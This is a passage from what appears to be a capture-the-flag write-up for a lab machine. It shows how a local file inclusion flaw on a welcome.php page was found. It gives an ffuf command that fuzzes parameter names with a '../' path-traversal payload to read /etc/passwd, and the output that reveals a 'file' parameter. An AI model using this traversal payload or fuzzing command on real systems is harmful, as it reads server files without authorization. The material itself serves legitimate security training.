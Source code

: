 ![Admin HASH](/assets/images/dc9/login.png)

A weird message appear in every page "File does not exit" , maybe there is a parameter missing in endpoint "welcome.php?PARAMETER="

## LFI 


### Authenticated Parameter Fuzzing using FFUF 

I used ffuf to fuzz for parameters using seclists burp parameter names list :
```bash

https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt

```

I'm gonna put the payload for an lfi " ../../../../../../../../../../etc/passwd"

```bash

ffuf -u http://192.168.1.22/welcome.php\?FUZZ\=../../../../../../../../../../etc/passwd -w /opt/params -H "Cookie: PHPSESSID=thsl8i2b9hagdef51shk183b67" -mc 301,302,200 -fl 43

```

Result from ffuf shows a file parameter with good content size of 3316 : 

```bash

file                    [Status: 200, Size: 3316, Words: 71, Lines: 86, Duration: 80ms]

```
